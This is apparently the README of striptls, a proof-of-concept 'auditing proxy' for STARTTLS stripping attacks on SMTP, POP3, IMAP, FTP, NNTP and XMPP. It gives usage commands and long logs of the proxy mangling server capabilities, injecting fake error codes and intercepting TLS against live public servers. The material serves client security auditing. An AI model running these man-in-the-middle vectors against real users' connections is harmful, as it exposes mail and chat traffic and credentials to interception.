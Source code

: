 striptls - auditing proxy
=========================

poc implementation of STARTTLS stripping attacks

-  SMTP
-  SMTP.StripFromCapabilities - server response capability patch
-  SMTP.StripWithInvalidResponseCode - client STARTTLS stripping,
   invalid response code
-  SMTP.UntrustedIntercept - STARTTLS interception (client and server
   talking ssl) (requires server.pem in pwd)
-  SMTP.StripWithTemporaryError
-  SMTP.StripWithError
-  SMTP.ProtocolDowngradeStripExtendedMode
-  POP3
-  POP3.StripFromCapabilities
-  POP3.StripWithError
-  POP3.UntrustedIntercept
-  IMAP
-  IMAP.StripFromCapabilities
-  IMAP.StripWithError
-  IMAP.UntrustedIntercept
-  FTP
-  FTP.StripFromCapabilities
-  FTP.StripWithError
-  FTP.UntrustedIntercept
-  NNTP
-  NNTP.StripFromCapabilities
-  NNTP.StripWithError
-  NNTP.UntrustedIntercept
-  XMPP
-  XMPP.StripFromCapabilities
-  XMPP.StripInboundTLS
-  XMPP.UntrustedIntercept

Results:

::

    - [*] client: 127.0.0.1
    -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>
    - [*] client: 192.168.139.1
    -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
    -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
    -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>

Usage
-----

::

    #> python -m striptls --help    # from pip/setup.py
    #> python striptls --help       # from source / root folder
    Usage: striptls [options]

           example: striptls --listen 0.0.0.0:25 --remote mail.server.tld:25


        Options:
          -h, --help            show this help message and exit
          -v, --verbose         make lots of noise [default]
          -l LISTEN, --listen=LISTEN
                                listen ip:port [default: 0.0.0.0:<remote_port>]
          -r REMOTE, --remote=REMOTE
                                remote target ip:port to forward sessions to
          -k KEY, --key=KEY     SSL Certificate and Private key file to use, PEM
                                format assumed [default: server.pem]
          -x VECTORS, --vectors=VECTORS
                                Comma separated list of vectors. Use 'ALL' (default)
                                to select all vectors. Available vectors:
                                FTP.StripFromCapabilities, FTP.StripWithError,
                                FTP.UntrustedIntercept, IMAP.StripFromCapabilities,
                                IMAP.StripWithError, IMAP.UntrustedIntercept,
                                NNTP.StripFromCapabilities, NNTP.StripWithError,
                                NNTP.UntrustedIntercept, POP3.StripFromCapabilities,
                                POP3.StripWithError, POP3.UntrustedIntercept,
                                SMTP.ProtocolDowngradeStripExtendedMode,
                                SMTP.StripFromCapabilities, SMTP.StripWithError,
                                SMTP.StripWithInvalidResponseCode,
                                SMTP.StripWithTemporaryError, SMTP.UntrustedIntercept,
                                XMPP.StripFromCapabilities, XMPP.StripInboundTLS,
                                XMPP.UntrustedIntercept [default: ALL]

Install (optional)
------------------

from pip

::

    #> pip install striptls

from source

::

    #> setup.py install

Examples
--------

::

                      inbound                    outbound
    [inbound_peer]<------------->[listen:proxy]<------------->[outbound_peer/target]
      smtp-client                   striptls                    remote/target

local ``smtp-client`` -> ``localhost:8825`` (proxy) ->
``mail.gmx.net:25``

Audit Mode
~~~~~~~~~~

iterates all protocol specific cases on a per client basis and keeps
track of clients violating the starttls protocol. Ctrl+C to abort audit
and print results.

::

    #> python striptls --listen localhost:8825 --remote=mail.gmx.net:25
    2016-02-02 22:11:56,275 - INFO     - <Proxy 0xffcf6d0cL listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripFromCapabilities at 0xffd4632c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripWithError at 0xffd4635c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.UntrustedIntercept at 0xffd4638c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripFromCapabilities at 0xffd4626c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripWithError at 0xffd4629c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.UntrustedIntercept at 0xffd462cc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripFromCapabilities at 0xffd463ec>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripWithError at 0xffd4641c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.UntrustedIntercept at 0xffd4644c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.StripWithError at 0xffd461dc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.UntrustedIntercept at 0xffd4620c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithError at 0xffd4614c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.UntrustedIntercept at 0xffd4617c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:5222 , proto:    XMPP): <class striptls.StripFromCapabilities at 0xffd464ac>
    2016-02-02 22:11:56,276 - INFO     - <RewriteDispatcher vectors={5222: set([<class striptls.StripFromCapabilities at 0xffd464ac>]), 110: set([<class striptls.UntrustedIntercept at 0xffd4620c>, <class striptls.StripWithError at 0xffd461dc>]), 143: set([<class striptls.StripWithError at 0xffd4629c>, <class striptls.UntrustedIntercept at 0xffd462cc>, <class striptls.StripFromCapabilities at 0xffd4626c>]), 21: set([<class striptls.UntrustedIntercept at 0xffd4638c>, <class striptls.StripFromCapabilities at 0xffd4632c>, <class striptls.StripWithError at 0xffd4635c>]), 119: set([<class striptls.StripWithError at 0xffd4641c>, <class striptls.UntrustedIntercept at 0xffd4644c>, <class striptls.StripFromCapabilities at 0xffd463ec>]), 25: set([<class striptls.StripWithInvalidResponseCode at 0xffd3138c>, <class striptls.StripWithTemporaryError at 0xffd4611c>, <class striptls.StripFromCapabilities at 0xffd316bc>, <class striptls.StripWithError at 0xffd4614c>, <class striptls.UntrustedIntercept at 0xffd4617c>])}>
    2016-02-02 22:12:08,477 - DEBUG    - <ProtocolDetect 0xffcf6eccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> client ('127.0.0.1', 28902) has connected
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:08,805 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '220 gmx.com (mrgmx001) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:08,805 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithInvalidResponseCode new: True>
    2016-02-02 22:12:09,759 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:09,850 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,851 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server][mangled] None
    2016-02-02 22:12:09,883 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:09,983 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:09,992 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:10,100 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:10,116 - WARNING  - <Session 0xffcf6e4cL> terminated.
    2016-02-02 22:12:13,056 - DEBUG    - <ProtocolDetect 0xffd0920cL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:13,056 - INFO     - <Session 0xffd0918cL> client ('127.0.0.1', 28905) has connected
    2016-02-02 22:12:13,057 - INFO     - <Session 0xffd0918cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:13,241 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:13,241 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithTemporaryError new: True>
    2016-02-02 22:12:14,197 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:14,289 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:14,304 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] <= [server][mangled] '454 TLS not available due to temporary reason\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] => [server][mangled] None
    2016-02-02 22:12:14,320 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:14,411 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:14,415 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:14,520 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:14,535 - WARNING  - <Session 0xffd0918cL> terminated.
    2016-02-02 22:12:16,649 - DEBUG    - <ProtocolDetect 0xffd092ecL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> client ('127.0.0.1', 28908) has connected
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:16,820 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:16,820 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
    2016-02-02 22:12:17,760 - DEBUG    - <Session 0xffd0926cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-02-02 22:12:17,871 - WARNING  - <Session 0xffd0926cL> terminated.
    2016-02-02 22:12:20,071 - DEBUG    - <ProtocolDetect 0xffd093ccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> client ('127.0.0.1', 28911) has connected
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:20,239 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:20,240 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithError new: True>
    2016-02-02 22:12:21,181 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:21,269 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:21,280 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] <= [server][mangled] '501 Syntax error\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] => [server][mangled] None
    2016-02-02 22:12:21,289 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:21,381 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:21,386 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:21,469 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:21,485 - WARNING  - <Session 0xffd0934cL> terminated.
    2016-02-02 22:12:23,665 - WARNING  - Ctrl C - Stopping server
    2016-02-02 22:12:23,665 - INFO     -  -- audit results --
    2016-02-02 22:12:23,666 - INFO     - [*] client: 127.0.0.1
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:12:23,666 - INFO     -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>

Strip STARTTLS from server capabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripFromCapabilities
    2016-01-31 15:44:35,000 - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:44:35,000 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
    2016-01-31 15:44:37,030 - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:44:39,051 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:44:40,335 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
    2016-01-31 15:44:41,605 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:44:41,612 - WARNING  - <Session 0x1fe6f10> terminated.

Invalid STARTTLS response code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripWithInvalidResponseCode
    2016-01-31 15:42:40,325 - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:42:40,325 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
    2016-01-31 15:43:19,755 - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:43:21,473 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:43:22,395 - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
    2016-01-31 15:43:23,269 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:43:23,285 - WARNING  - <Session 0x1feff10> terminated.

Untrusted SSL Intercept (for clients not checking server cert trust)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.UntrustedIntercept
    2016-01-31 15:59:02,417 - INFO     - <Proxy 0x1f468f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:59:02,417 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01F45298>])}>
    2016-01-31 15:59:06,292 - DEBUG    - <ProtocolDetect 0x1f46a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> client ('127.0.0.1', 20238) has connected
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:59:06,561 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:59:07,500 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:07,565 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] '220 Go ahead\r\n'
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] waiting for inbound SSL Handshake
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,926 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] performing outbound SSL handshake
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] None
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] => [server]          'rset\r\n'
    2016-01-31 15:59:08,469 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:59:08,484 - WARNING  - <Session 0x1f46990> terminated.

XMPP Audit Trail
~~~~~~~~~~~~~~~~

Example: Pidgin with optional transport security.

XMPP.StripInboundTLS - Inbound Plain - Outbound TLS - in case server requires starttls
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        python striptls --listen 0.0.0.0:5222 --remote jabber.ccc.de:5222 -k ../server.pem
        2016-02-05 16:53:28,842 - INFO     - <Proxy 0x7f08322ba310 listen=('0.0.0.0', 5222) target=('jabber.ccc.de', 5222)> ready.
        ...
        2016-02-05 16:53:30,401 - DEBUG    - <ProtocolDetect 0x7f083196a810 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        ...
        2016-02-05 16:53:30,401 - INFO     - <Session 0x7f083196a7d0> client ('192.168.139.1', 56888) has connected
        2016-02-05 16:53:30,402 - INFO     - <Session 0x7f083196a7d0> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:30,923 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:30,925 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripInboundTLS new: True>
        2016-02-05 16:53:31,005 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13821701589972978594' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:31,009 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:31,012 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:31,069 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] performing outbound SSL handshake
        2016-02-05 16:53:31,199 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        2016-02-05 16:53:31,203 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<iq type='get' id='purple9f914f80'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        2016-02-05 16:53:31,259 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13515446948282835507' from='jabber.ccc.de' xml:lang='en'>"
